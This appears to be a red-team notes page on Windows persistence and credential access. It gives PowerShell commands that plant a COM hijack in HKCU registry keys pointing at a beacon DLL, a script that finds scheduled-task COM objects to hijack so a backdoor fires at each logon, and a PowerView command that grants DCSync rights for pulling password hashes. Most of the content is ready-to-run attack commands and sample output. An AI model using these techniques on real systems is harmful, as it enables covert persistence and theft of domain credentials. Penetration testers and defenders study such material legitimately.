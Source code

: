 ## COM Hijacking
### Searching non existent COM components
As the values of HKCU can be modified by the users **COM Hijacking** could be used as a **persistent mechanisms**. Using `procmon` it's easy to find searched COM registries that doesn't exist that an attacker could create to persist. Filters:

* **RegOpenKey** operations.
* where the _Result_ is **NAME NOT FOUND**.
* and the _Path_ ends with **InprocServer32**.
    
Once you have decided which not existent COM to impersonate execute the following commands. _Be careful if you decide to impersonate a COM that is loaded every few seconds as that could be overkill._

```
New-Item -Path "HKCU:Software\Classes\CLSID" -Name "{AB8902B4-09CA-4bb6-B78D-A8F59079A8D5}"
New-Item -Path "HKCU:Software\Classes\CLSID\{AB8902B4-09CA-4bb6-B78D-A8F59079A8D5}" -Name "InprocServer32" -Value "C:\beacon.dll"
New-ItemProperty -Path "HKCU:Software\Classes\CLSID\{AB8902B4-09CA-4bb6-B78D-A8F59079A8D5}\InprocServer32" -Name "ThreadingModel" -Value "Both"
```
### Hijackable task scheduler COM components
Windows Tasks actually use Custom Triggers to call COM objects. And because they're executed via the Task Scheduler, it's easier to predict when they're going to be triggered.
```
# Show COM CLSIDs
$Tasks = Get-ScheduledTask

foreach ($Task in $Tasks)
{
  if ($Task.Actions.ClassId -ne $null)
  {
    if ($Task.Triggers.Enabled -eq $true)
    {
      if ($Task.Principal.GroupId -eq "Users")
      {
        Write-Host "Task Name: " $Task.TaskName
        Write-Host "Task Path: " $Task.TaskPath
        Write-Host "CLSID: " $Task.Actions.ClassId
        Write-Host
      }
    }
  }
}

# Sample Output:
# Task Name:  Example
# Task Path:  \Microsoft\Windows\Example\
# CLSID:  {1936ED8A-BD93-3213-E325-F38D112938E1}
# [more like the previous one...]
```
Checking the output you can select one that is going to be executed **every time a user logs in** for example.

Now searching for the CLSID **{1936ED8A-BD93-3213-E325-F38D112938EF}** in **HKEY_****_CLASSES__****ROOT\\CLSID** and in HKLM and HKCU, you usually will find that the value doesn't exist in HKCU
```
# Exists in HKCR\CLSID\
Get-ChildItem -Path "Registry::HKCR\CLSID\{1936ED8A-BD93-3213-E325-F38D112938EF}"

Name           Property
----           --------
InprocServer32 (default)      : C:\Windows\system32\some.dll
               ThreadingModel : Both

# Exists in HKLM
Get-Item -Path "HKLM:Software\Classes\CLSID\{01575CFE-9A55-4003-A5E1-F38D1EBDCBE1}" | ft -AutoSize

Name                                   Property
----                                   --------
{01575CFE-9A55-4003-A5E1-F38D1EBDCBE1} (default) : MsCtfMonitor task handler

# Doesn't exist in HKCU
PS C:\> Get-Item -Path "HKCU:Software\Classes\CLSID\{01575CFE-9A55-4003-A5E1-F38D1EBDCBE1}"
Get-Item : Cannot find path 'HKCU:\Software\Classes\CLSID\{01575CFE-9A55-4003-A5E1-F38D1EBDCBE1}' because it does not exist.
```
Then, you can just create the HKCU entry and everytime the user logs in, your backdoor will be fired.
## DCSync
If you are a domain admin, you can grant this permissions to any user :
```
# Powerview
Add-ObjectAcl -TargetDistinguishedName "dc=dollarcorp,dc=moneycorp,dc=local" -PrincipalSamAccountName username -Rights DCSync -Verbose
```
In this way, anytime you want to pull passwords hashes just do DCSync.
## Parent PID spoofing
[Parent PID Spoofing - Pentest Everything (gitbook.io)](https://viperone.gitbook.io/pentest-everything/everything/everything-active-directory/access-token-manipultion/parent-pid-spoofing)
[Parent Process ID (PPID) Spoofing - Red Teaming Experiments (ired.team)](https://www.ired.team/offensive-security/defense-evasion/parent-process-id-ppid-spoofing)

## Ressources
[COM Hijacking - HackTricks](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/com-hijacking)
[DCSync - HackTricks](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/dcsync)
